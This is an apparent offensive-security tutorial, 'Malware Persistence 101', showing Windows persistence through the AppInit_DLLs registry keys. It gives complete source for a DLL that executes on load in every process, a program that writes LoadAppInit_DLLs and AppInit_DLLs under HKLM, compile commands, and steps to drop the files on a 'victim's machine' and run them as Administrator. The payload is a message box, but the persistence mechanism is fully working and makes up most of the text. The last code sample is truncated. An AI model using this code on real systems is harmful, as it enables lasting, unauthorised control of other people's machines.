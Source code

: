 # 05 persistence - AppInit DLLs

Windows operating systems have the functionality to allow nearly all application processes to load custom DLLs into their address space.
This allows for the possibility of persistence, as any DLL may be loaded and executed when application processes are created on the system.   

Administrator level privileges are necessary to implement this trick. The following registry keys regulate the loading of DLLs via AppInit:

- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows` - 32-bit

- `HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows` - 64-bit

We are interested in the following values:

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

![img](./img/2024-05-05_11-44.png)    

Microsoft to protect Windows users from malware has disabled by default the loading of DLLs's via AppInit (`LoadAppInit_DLLs`). However, setting the registry key `LoadAppInit_DLLs` to value `1` will enable this feature.   

First of all, create "evil" DLL. As usual I will take "Hello, Prishtina!" messagebox pop-up logic:

```cpp
/*
 * Malware Persistence 101
 * hack.cpp
 * message box
 * author: @cocomelonc
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Hello, Prishtina!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Let's go to compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp -fpermissive
```

![img](./img/2024-05-05_11-48.png)   

Then create script for the simple logic: changing the registry key `AppInit_DLLs` to contain the path to the DLL, as a result, `hack.dll` will be loaded:    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows low level persistense via Appinit_DLLs
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\hack.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, setting the registry key `LoadAppInit_DLLs` to value `1` is also important.    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-05_11-52.png)    

Drop all to victim's machine (`Windows 10 x64` in my case).    

![img](./img/2024-05-05_13-27.png)   

Then run as Administartor:    

```powershell
.\pers.exe
```

and:   

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
reg query "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

just check.   

![img](./img/2024-05-05_12-04.png)    

Then, for demonstration, open something like `Paint` or `Notepad`:    

![img](./img/2024-05-05_13-28.png)   

So, everything is worked perfectly :)

However, this method's implementation may result in stability and performance difficulties on the target system:    

![img](./img/2024-05-05_13-32.png)    

Furthermore, I think that the logic of the first DLL's is considered very odd since multiple message boxes popup, so when we act real-life action in red team scenarios: it's very noisy, for example for multiple reverse shell connections.    

I tried updating little bit the logic of `hack.dll`:   

```cpp
/*
 * Malware Persistence 101
 * hack2.cpp
 * message box for paint
 * author: @cocomelonc
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
    char *Begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
      pattern++;
    }
    if (!*pattern)
  	  return Begin;

    str = Begin + 1;
  }
  return NULL;
}

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow, Prishtina!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  char path[MAX_PATH];
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    GetModuleFileName(NULL, path, MAX_PATH);
    if (subStr(path, (char *)"paint")) {
      runMe();
    }
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE
```

As you can see, if the current process is `paint` (and is 32-bits) then, "inject" :)    

Compile it:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack2.cpp -fpermissive
```

![img](./img/2024-05-05_13-36.png)    

And move it and try to open `paint` again:    

![img](./img/2024-05-05_13-39.png)    

![img](./img/2024-05-05_13-41.png)   

Perfect! :)